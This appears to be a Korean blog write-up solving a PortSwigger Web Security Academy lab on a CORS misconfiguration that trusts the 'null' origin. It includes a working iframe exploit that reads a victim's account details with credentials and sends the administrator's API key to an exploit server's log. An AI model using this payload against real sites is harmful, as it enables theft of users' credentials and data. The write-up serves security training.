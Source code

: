 ```yaml
---
layout: post
title: "Burp Academy-CORS 취약점: CORS vulnerability with trusted null origin"
categories: [보안취약점, Burp Academy]
tags: [보안취약점, Burp Academy, CORS취약점]
toc: true
---
```


# 개요
- [CORS]({% post_url 2023-06-28-CORS-basic %})에 관련된 취약점이다. 
- CORS 취약점에 대한 설명은 [여기]({% post_url 2023-06-27-burp-academy-cors %}) 
- 문제 주소: : https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack
- 난이도: APPRENTICE (쉬움)


# 문제설명
- 서버에는 Origin헤더에 null을 지정해서 보내면 ACAO헤더에 null을 회신해주는 CORS 취약점이 있다. 
- 이 취약점을 이용해서 서버 관리자의 API Key를 얻어내는 자바스크립트 코드를 exploit server를 이용해서 서버로 보낸다. 
- 얻어낸 서버 관리자의 API Key를 제출하면 문제가 풀린다. 

```
This website has an insecure CORS configuration in that it trusts the "null" origin.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: wiener:peter
```


# 풀이 
## CORS 취약점이 있는 곳 찾기 
[문제1번]({% post_url 2023-07-04-burp-academy-cors-1%})과 마찬가지로 `GET /accountDetails` 요청에 CORS 취약점이 있는 것을 확인했다. Origin: null 헤더를 보내면  ACAO헤더에 null을 회신해준다. 

![CORS 취약점 확인](/images/burp-academy-cors-2-1.png)


## exploit 코드 만들기

iframe을 활용해서 exploit 코드를 만든다. 이 코드를 victim에게 실행하게 만들면 될 것이다. 코드를 저장하고 Deliver exploit to victim 버튼을 눌러 사이트 관리자에게 전달한다. 

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://0a94003d030f6dc582625682005a00a0.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='https://exploit-0a03002803fd6ddf82a155ea017a005c.exploit-server.net/log?key='+this.responseText;
};
</script>"></iframe>
```

## 억세스 로그를 보고 apiKey를 확인
exploit서버의 억세스 로그를 보면 관리자의 억세스가 확인된다. apiKey를 얻어내서 제출하면 문제가 풀린다. 

![풀이 성공](/images/burp-academy-cors-2-success.png)